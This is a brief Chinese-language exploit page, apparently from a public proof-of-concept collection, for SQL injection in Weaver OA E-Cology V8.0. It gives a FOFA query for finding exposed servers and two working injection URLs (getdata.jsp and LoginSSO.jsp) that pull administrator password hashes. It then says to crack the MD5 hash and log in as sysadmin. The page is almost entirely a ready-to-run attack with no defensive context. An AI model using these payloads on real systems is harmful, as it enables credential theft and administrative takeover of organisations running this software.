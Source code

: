 # 泛微OA E-Cology V8.0 SQL注入漏洞
## 资产收集：
fofa：`app="泛微-协同办公OA"`
## POC
- getdata.jsp:`/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager`  
![](./img/E-Cology_sql.png)
- LoginSSO.jsp SQL:`/upgrade/detail.jsp/login/LoginSSO.jsp?id=1%20UNION%20SELECT%20password%20as%20id%20from%20HrmResourceManage`  
md5解密后登陆：`sysadmin/md5解密的密码`